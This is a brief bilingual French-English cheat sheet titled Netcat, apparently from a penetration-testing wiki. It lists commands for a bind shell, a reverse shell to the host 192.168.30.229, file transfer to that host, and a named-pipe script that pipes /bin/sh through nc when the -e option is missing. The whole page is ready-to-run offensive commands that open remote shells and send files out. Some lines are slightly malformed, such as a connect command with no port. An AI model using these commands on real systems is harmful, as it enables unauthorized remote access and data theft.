 ```yaml
---
title: Netcat
permalink: /Netcat/
---
```


# Netcat

Bind shell
----------

Sur la machine attaquante:

``` bash
nc -nv 192.168.30.229
```

Sur la machine cible

``` bash
nc -nlvp 443 -e /bin/bash
```

Reverse shell
-------------

On the attacker machine (will receive the shell):

``` bash
nc -nlvp 443
```

Sur la machine cible

``` bash
nc -nv 192.168.30.229 -e /bin/bash
```

Transfert de fichiers
---------------------

The following commands can be used to transfer a file

``` bash
nc -nlvp 443 > incoming
nc -nv 192.168.30.229 < outgoing
```

Si l'option **-e** n'est pas disponible il est possible d'utiliser ce script:

``` bash
#!/bin/bash

mknod /tmp/backpipe p
bin/sh 0</tmp/backpipe | nc 192.168.30.229 443 1>/tmp/backpipe
```

